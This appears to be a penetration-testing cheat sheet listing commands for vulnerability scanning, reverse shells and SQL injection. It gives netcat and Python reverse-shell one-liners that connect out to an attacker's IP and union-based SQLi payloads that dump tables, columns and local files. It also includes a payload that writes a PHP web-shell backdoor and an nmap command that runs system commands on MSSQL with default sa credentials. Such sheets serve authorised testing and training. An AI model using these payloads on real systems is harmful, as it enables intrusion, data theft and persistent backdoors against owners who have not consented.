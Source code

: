 Scanning for possible vulns:
`nikto --host [IP address]`

Scanning for vulns in Wordpress:
`wpscan --url [URL]`

### Reverse Shells
Netcat reverse shell (target): `nc -nv [your IP] [port] -e cmd.exe`. Replace cmd.exe with /bin/sh if the target is on linux.

Netcat reverse shell listener (local): `nc -nlvp 4444`

Python reverse shell: Make a local reverse shell listener, then run `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` on the target (change the IP and port in the code).

Amazing PHP reverse shell that I use all the time: [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

A list of other handy reverse shells: [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet )

### SQL Injection
Useful guides: [Security Idiots](http://securityidiots.com/Web-Pentest/SQL-Injection/Part-1-Basic-of-SQL-for-SQLi.html) and [pentestmonkey](http://pentestmonkey.net/category/cheat-sheet/sql-injection)

Find the number of columns: Use the `order by [count]` instruction in your SQL injection. Start with 1, and then gradually increment count until you get an error.

Adding your own select statement: Type in a normal query value and then type in `union all select 1,2,3,4,5,6`. Note that both statements must have the same number of columns.

Discover MySQL version: `union all select 1,2,3,4,@@version,6`. Obviously, you'll have to modify this to use the correct number of columns.

Discover the current user: `union all select 1,2,3,4,user(),6`

Getting a list of tables: `union all select 1,2,3,4,table_name,6 FROM information_schema.tables`

Getting the names of columns of a table: `union all select 1,2,3,4,column_name,6 from information_schema.columns where table_name='users'`

Concatenate strings from two columns in to a single column: `union all select 1,2,3,4,concat(column1,0x3a,column2) from table_name`. Replace column1, column2, and table_name with the correct values.

Limit the number of rows returned: `LIMIT [rows]`

Reading local files in MySQL: `union all select 1,2,3,4,load_file('file/path'),6`

Writing local files: `'union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'backdoor.php'` 

MS-SQL instant root: Sometimes you can instantly root the machine if you have DB credentials for MSSQL. `nmap -p 443 -Pn -sS --script ms-sql-xp-cmdshell.nse --script-args mssql.username=sa,mssql.password=password,mssql.instance-all,ms-sql-xp-cmdshell.cmd="whoami" [IP]`

